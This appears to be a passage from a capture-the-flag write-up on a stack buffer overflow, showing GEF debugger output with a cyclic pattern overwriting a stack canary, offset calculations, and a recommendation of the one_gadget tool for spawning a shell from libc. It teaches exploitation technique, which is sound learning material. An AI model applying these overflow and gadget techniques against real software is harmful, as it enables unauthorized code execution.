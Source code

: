 ```r
0x00007fffffffdd18│+0x0008: 0x00007ffff7dcfa00  →  0x00000000fbad2288
0x00007fffffffdd20│+0x0010: "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"	 ← $rsi
0x00007fffffffdd28│+0x0018: "baaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaaha[...]"
0x00007fffffffdd30│+0x0020: "caaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaia[...]"
0x00007fffffffdd38│+0x0028: "daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaaja[...]"
0x00007fffffffdd40│+0x0030: "eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka[...]"	 ← $rbp
0x00007fffffffdd48│+0x0038: "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555554810 <main+150>       call   0x555555554650 <fgets@plt>
   0x555555554815 <main+155>       mov    eax, 0x0
   0x55555555481a <main+160>       mov    rcx, QWORD PTR [rbp-0x8]
 → 0x55555555481e <main+164>       xor    rcx, QWORD PTR fs:0x28
   0x555555554827 <main+173>       je     0x55555555482e <main+180>
   0x555555554829 <main+175>       call   0x555555554630 <__stack_chk_fail@plt>
   0x55555555482e <main+180>       leave  
   0x55555555482f <main+181>       ret    
   0x555555554830 <__libc_csu_init+0> push   r15
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "q3", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55555555481e → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x000055555555481e in main ()
gef➤  pattern search daaaaaaa
[+] Searching 'daaaaaaa'
[+] Found at offset 17 (little-endian search) likely
[+] Found at offset 24 (big-endian search) 
gef➤  pattern search eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka
[+] Searching 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka'
[+] Found at offset 32 (big-endian search) 
gef➤  p $rcx
$1 = 0x6161616161616164   <--- Canary value overwrtten
```

As you can see we have overwritten the canary and we have the `rcx` register offset and we have `rbp` register offset at 32 which would be `32 - 24 = 8`. 


###  One_gadget - The best tool for finding one gadget RCE in libc.so.6 

I can honsetly vouch for this tool, this was the first time I used it and it's just awesome. With this tool it was easier to find the gadgets for shell spwaning.
